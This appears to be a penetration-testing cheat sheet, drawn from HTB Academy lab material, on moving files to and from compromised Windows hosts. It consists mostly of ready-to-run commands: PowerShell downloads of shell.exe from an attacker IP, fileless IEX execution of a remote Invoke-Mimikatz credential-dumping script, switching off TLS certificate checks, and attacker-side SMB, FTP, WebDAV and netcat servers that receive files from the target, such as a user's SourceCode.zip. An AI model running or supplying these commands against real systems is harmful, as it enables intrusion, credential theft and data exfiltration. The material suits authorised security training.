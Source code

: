 # Windows

## Download

### Copy & Paste

This works by encoding the file as base64 and copying it to the destination and decode the string back to file. This might come in handy.

#### Attacker > Target

```bash
kali@kali $ cat <file> |base64 -w 0;echo
```

```powershell
PS C:\> [IO.File]::WriteAllBytes("<fullpath&name>", [Convert]::FromBase64String("<base64 contents>"))
```

#### Target > Attacker

```powershell
PS C:\> [Convert]::ToBase64String((Get-Content -path "C:\Windows\system32\drivers\etc\hosts" -Encoding byte))
```

```bash
kali@kali $  echo <base64 contents> | base64 -d > hosts
```

> It is worth noting that the further steps are requried for file contents validation to ensure that the transferred file are moved witout any corruption.

```bash
kali@kali $ md5sum <file>
```

```powershell
PS C:\> Get-FileHash <file> -Algorithm md5
```

### PS File download

```powershell
PS C:\> (New-Object Net.WebClient).DownloadFile('<Target File URL>','<Output File Name>')
PS C:\> #(New-Object Net.WebClient).DownloadFile('http://10.10.14.220/shell.exe','C:\Users\Public\Downloads\shell.exe')

PS C:\> (New-Object Net.WebClient).DownloadFileAsync('<Target File URL>','<Output File Name>')
PS C:\> #(New-Object Net.WebClient).DownloadFileAsync('http://10.10.14.220/shell.exe','C:\Users\Public\Downloads\shell.exe')
```

### Fileless Method

Downloads the payload and excecute it directly in memory using **Invoke-Expression** cmdlet 'IEX'

```powershell
PS C:\> IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1')
PS C:\> # OR pipeline input
PS C:\> (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1') | IEX
```

### Invoke-WebRequest | iwr | curl | wget

Invoke-WebRequest has multiple aliases such as iwr, curl, and wget.

```powershell
PS C:\> Invoke-WebRequest http://10.10.14.220/shell.exe -OutFile shell.exe
```

### Errors in PowerShell

1. If the following error occurs, bypass using `-UserBasicParsing.`

![Internet Explorer first-launch prevents the download](https://academy.hackthebox.com/storage/modules/24/IE\_settings.png)

```powershell
PS C:\> Invoke-WebRequest https://<ip>/PowerView.ps1 -UseBasicParsing | IEX
```

2. SSL/TLS secure channel error which could be bypassed using following command.

> Exception calling "DownloadString" with "1" argument(s): "The underlying connection was closed: Could not establish trust relationship for the SSL/TLS secure channel."

```powershell
PS C:\> [System.Net.ServicePointManager]::ServerCertificateValidationCallback = {$true}
```

### SMB Server

On the **attacker**'s machine, create a smbserver using `impacket` package.

```bash
kali@kali $ sudo impacket-smbserver share -smb2support /tmp/smbsharepower
```

On the **target**, run:

<pre class="language-powershell"><code class="lang-powershell"><strong>C:\> copy \\&#x3C;ip>\share\nc.exe
</strong><strong>C:\> #copy \\10.10.14.220\share\nc.exe
</strong></code></pre>

**If Windows block unauthenticated guest.**

On the **attacker**'s machine, create SMB server with **user** and **pass**

```bash
kali@kali $ sudo impacket-smbserver share -smb2support /tmp/smbshare -user <user> -password <pass>
```

On the **target** machine, mount and copy the file.

<pre class="language-sh"><code class="lang-sh"><strong>C:\> net use n: \\&#x3C;ip>\&#x3C;share dir> /user:&#x3C;user> &#x3C;pass>
</strong>C:\> copy n:\nc.exe
</code></pre>

> Can try to copy the file directly using the `copy \\<ip>\share\nc.exe` command. but copying this command might result in error, try mount and copy instead.

### FTP Server

On the **attacker**'s machine, create a ftp server using Python3's `pyftpdlib` module.

```bash
kali@kali $ sudo python3 -m pyftpdlib --port 21
```

On the **target** machine, mount and copy the file.

```powershell
PS C:\> (New-Object Net.WebClient).DownloadFile('ftp://<ip>/file.txt', 'ftp-file.txt')
```

## Upload

### PS uploads (Python uploadserver)

To upload file, we need a server.

On the **attacker**'s machine, create a upload server using Python3's `uploadserver` module.

```bash
kali@kali $ python3 -m uploadserver
```

On the **target** machine, run

```powershell
PS C:\> Invoke-FileUpload -Uri http://<ip>:<port>/upload -File C:\Windows\System32\drivers\etc\hostsp
```

### PS uploads (Web based)

**Attacker** creates a netcat listener.

```bash
kali@kali $ nc -lvnp 8000
```

**Target** sends file throught HTTP POST method.

```powershell
PS C:\> $b64 = [System.convert]::ToBase64String((Get-Content -Path 'C:\Windows\System32\drivers\etc\hosts' -Encoding Byte))
PS C:\> Invoke-WebRequest -Uri http://192.168.49.128:8000/ -Method POST -Body $b64
```

**Attacker** decodes the stream back to file.

<pre class="language-bash"><code class="lang-bash"><strong>kali@kali $ echo &#x3C;base64> | base64 -d -w 0 > hosts
</strong></code></pre>

### SMB Server

On the **attacker**'s machine, create a upload server using Python3's `wsgidav` module.

<pre class="language-bash"><code class="lang-bash"><strong>kali@kali $ sudo wsgidav --host=0.0.0.0 --port=80 --root=/tmp --auth=anonymous
</strong></code></pre>

On the **target** machine, run

<pre class="language-shell-session"><code class="lang-shell-session"><strong>C:\> dir \\192.168.49.128\DavWWWRoot
</strong>C:\> copy C:\Users\john\Desktop\SourceCode.zip \\192.168.49.129\DavWWWRoot\
C:\> copy C:\Users\john\Desktop\SourceCode.zip \\192.168.49.129\sharefolder\
</code></pre>

> Notice that it this method the `impacket-smbserver` was not used due to the port445 restrictions. Feel free to use it if there is no restriction.

### FTP Uploads

On the **attacker**'s machine, create a upload server using Python3's `pyftpdlib` module. but this time `--write` attribute is specified to allow client (target) to upload files.

```bash
kali@kali $ python3 -m pyftpdlib --port 21 --write
```

On the **target** machine, run

```
PS C:\> (New-Object Net.WebClient).UploadFile('ftp://192.168.49.128/ftp-hosts', 'C:\Windows\System32\drivers\etc\hosts')
```



## Resources

* Most of the commands and contents are from **HTB academy lab!**

